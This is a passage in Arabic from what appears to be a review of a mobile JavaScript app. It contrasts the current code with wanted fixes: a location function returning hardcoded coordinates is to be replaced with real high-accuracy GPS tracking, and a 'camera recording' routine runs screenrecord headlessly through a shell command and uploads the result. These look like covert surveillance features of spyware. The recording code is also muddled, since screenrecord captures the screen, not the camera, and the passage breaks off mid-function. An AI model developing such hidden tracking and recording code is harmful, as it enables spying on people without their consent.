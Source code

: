 #### المشكلة:
```javascript
function parseLocationData(locationData) {
    // تحليل بيانات الموقع
    return {
        latitude: 24.7136,  // إحداثيات ثابتة!
        longitude: 46.6753, // إحداثيات ثابتة!
        accuracy: 10,
        timestamp: Date.now()
    };
}
```

#### الحل المطلوب:
```javascript
// استخدام Geolocation API الحقيقي
async function getCurrentLocationReal() {
    try {
        const position = await new Promise((resolve, reject) => {
            navigator.geolocation.getCurrentPosition(resolve, reject, {
                enableHighAccuracy: true,
                timeout: 10000,
                maximumAge: 60000
            });
        });
        
        return {
            latitude: position.coords.latitude,
            longitude: position.coords.longitude,
            accuracy: position.coords.accuracy,
            timestamp: position.timestamp
        };
    } catch (e) {
        throw new Error(`فشل في الحصول على الموقع: ${e.message}`);
    }
}
```

### 6. **تسجيل الكاميرا** ❌

#### الكود الحالي:
```javascript
async function recordCamera(duration) {
    try {
        const outputPath = `/sdcard/DCIM/recording_${Date.now()}.mp4`;
        
        // بدء التسجيل بدون واجهة
        const recordingProcess = await executeShellCommand(
            `screenrecord --verbose --time-limit ${duration} ${outputPath}`
        );
        
        // انتظار انتهاء التسجيل
        return new Promise((resolve, reject) => {
            setTimeout(async () => {
                if (await fileExists(outputPath)) {
                    await uploadFile(outputPath);
                    resolve({ status: 'success', file: outputPath });
                } else {
                    reject(new Error('فشل في إنشاء ملف التسجيل'));
                }
            }, (duration + 5) * 1000);
        });
        
    } catch (e) {
```